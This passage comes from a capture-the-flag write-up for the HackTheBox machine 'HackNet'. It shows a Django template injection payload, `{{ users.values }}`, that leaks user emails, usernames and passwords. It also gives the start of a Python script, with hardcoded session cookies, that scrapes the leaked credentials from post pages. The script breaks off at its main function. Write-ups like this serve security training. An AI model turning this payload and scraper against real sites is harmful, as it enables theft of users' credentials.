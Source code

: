 Now, we repeat the process but now with the payload `{{ users.values }}`. In Django, this will returns a list of dictionaries containing fields from the User model.

The leaked information includes:
- User emails
- Usernames  
- Password hashes/plaintext passwords

![Debug Output Discovery](picture11.png)

But..... Here the catch, it will return only the informations of the users that liked the  post of the User`9`. So we need to go through all the users to get the full informations.

### Credential Extraction Script

I developed a Python script to automatically extract credentials from all posts:

```python
import requests
import re
from bs4 import BeautifulSoup

BASE_URL = "http://hacknet.htb"
COOKIES = {
    "sessionid": "09cmaozjwazplygr58xtxz8mkdpmo3ci",
    "csrftoken": "ZbbWHoXo2ZxfyDcsr0dWqR7zDIJX5m2r",
}
HEADERS = {
    "User-Agent": "Mozilla/4.0",
    "Referer": BASE_URL,
    "X-CSRFToken": COOKIES["csrftoken"],
}

def extract_creds_from_html(html):
    """Extract credentials from <img title="...">"""
    users = []
    soup = BeautifulSoup(html, "html.parser")
    for img in soup.find_all("img"):
        title = img.get("title")
        if not title:
            continue
        
        # Look for Django QuerySet style dump
        matches = re.findall(
            r"'email': '([^']+)', 'username': '([^']+)', 'password': '([^']+)'",
            title,
        )
        for email, username, password in matches:
            users.append((email, username, password))
    return users

def main():
    session = requests.Session()
    session.cookies.update(COOKIES)
    session.headers.update(HEADERS)
```